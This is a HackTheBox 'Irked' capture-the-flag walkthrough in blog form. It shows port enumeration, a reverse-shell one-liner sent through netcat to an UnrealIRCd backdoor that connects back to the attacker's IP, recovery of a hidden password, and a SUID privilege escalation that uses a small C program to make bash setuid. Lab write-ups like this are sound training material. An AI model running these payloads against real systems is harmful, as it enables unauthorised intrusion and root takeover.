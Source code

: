 ```yaml
---
layout: post
title:  "HackTheBox - Irked"
date:   2021-08-12 01:58:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|   256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    syn-ack Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          32804/udp   status
|   100024  1          38238/tcp   status
|   100024  1          38944/tcp6  status
|_  100024  1          50059/udp6  status
6697/tcp  open  irc     syn-ack UnrealIRCd
8067/tcp  open  irc     syn-ack UnrealIRCd
38238/tcp open  status  syn-ack 1 (RPC #100024)
65534/tcp open  irc     syn-ack UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
After searching a bit we find a link from hacktricks where we see that we can connect via netcat with the port and send our payload:
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ nc irked.htb 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; cd /tmp; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.34 1337 >/tmp/f
```
And we get our reverse shell in our listener:
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 41943
bash: cannot set terminal process group (642): Inappropriate ioctl for device
bash: no job control in this shell
```
User.txt is in /home/djmardov/Documents but we do not have permission to view its contents.However there is another file in the directory:
```s
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Since we have come across only one image while enumerating port 80 we download that image and run steghide to get the password:
```
Kab6h+m+bbp2J:HG
```
We cannot escalate to djmardov in our current shell so we ssh into djmardov.Searching for SUID binaried we come across this uncommon one called viewuser:
```s
djmardov@irked:/tmp$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/bash
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
After searching a bit we get a direct way to escalate our privileges in this [link](https://fuzzmymind.com/2019/05/29/suid-binary-exploit-a-primer/).So we try this exploit:
```s
djmardov@irked:~/Documents$ cd /tmp
djmardov@irked:/tmp$ ls
f
socat
systemd-private-1601aad9b66a4362bb51e1595b03a2ea-colord.service-6Agm8z
systemd-private-1601aad9b66a4362bb51e1595b03a2ea-cups.service-Ngcrdv
systemd-private-1601aad9b66a4362bb51e1595b03a2ea-rtkit-daemon.service-4VOX6P
vmware-root
djmardov@irked:/tmp$ touch listusers.c
djmardov@irked:/tmp$ nano listusers.c 
djmardov@irked:/tmp$ cat listusers.c
int main(int argc, char **argv) {
	setuid(0);
	system("chmod +s /bin/bash");
	return 0;
}
djmardov@irked:/tmp$ gcc listusers.c -o listusers
djmardov@irked:/tmp$ ls -ltr
total 396
-rwx------ 1 ircd     ircd     375176 Jun 25 13:42 socat
drwx------ 2 root     root       4096 Aug 11 08:29 vmware-root
drwx------ 3 root     root       4096 Aug 11 08:29 systemd-private-1601aad9b66a4362bb51e1595b03a2ea-colord.service-6Agm8z
drwx------ 3 root     root       4096 Aug 11 08:29 systemd-private-1601aad9b66a4362bb51e1595b03a2ea-rtkit-daemon.service-4VOX6P
drwx------ 3 root     root       4096 Aug 11 08:34 systemd-private-1601aad9b66a4362bb51e1595b03a2ea-cups.service-Ngcrdv
prw------- 1 ircd     ircd          0 Aug 11 15:10 f
-rw-r--r-- 1 djmardov djmardov     90 Aug 11 15:18 listusers.c
-rwxr-xr-x 1 djmardov djmardov   5048 Aug 11 15:18 listusers
djmardov@irked:/tmp$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-08-11 08:29 (:0)
djmardov pts/0        2021-08-11 15:11 (10.10.14.34)
```
After this we run "bash -p" to get root shell:
```s
djmardov@irked:/tmp$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
```
Root flag is in /root/root.txt